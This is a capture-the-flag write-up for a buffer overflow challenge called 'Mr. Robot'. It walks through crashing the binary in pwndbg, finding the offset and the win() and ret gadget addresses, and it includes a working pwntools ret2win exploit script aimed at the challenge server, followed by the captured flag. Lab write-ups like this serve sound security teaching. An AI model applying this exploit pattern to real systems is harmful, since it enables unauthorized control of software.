

### Mr. Robot

* Author: Aakansh Gupta (Unknown)


Classic Buffer Overflow CTF.
Connecting to the server through netcat gives:

```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > 

```

Any answer to this returns:
```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > Elliot Alderson
You aren't thinking straight Elliot!

```

We try to decompile the file using decompilers like gdb and check breakpoints after entering a huge value:

```bash
pwndbg> run
Starting program: /home/kali/Desktop/Cyscom/3/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Who is the leader of fsociety? 
Enter your answer > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  

Program received signal SIGSEGV, Segmentation fault.

```
Use this data to find the value overriden by the RIP register. Use ` cyclic -l 0x6161616b6161616a ` (for example only) to find offset vlaue with RIP register. 
Now find the ` win() ` function address within gdb using `print win `. Similarly, find the ret gadget using ` ROPgadget --binary ./vuln --only "ret" ` outside gdb.
We are using a `pwntools` exploit script to automatically run and get the flag from the server using the values we found.

```python
from pwn import *

context.arch = 'amd64'

offset = 72
win_address = 0x4011b6
ret_gadget = 0x401016

p = remote("20.244.12.130", 50001)

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

log.info(f"Payload: {payload}")

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()

```

Running the script produces the output as the required flag.



### The flag found is:
## CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
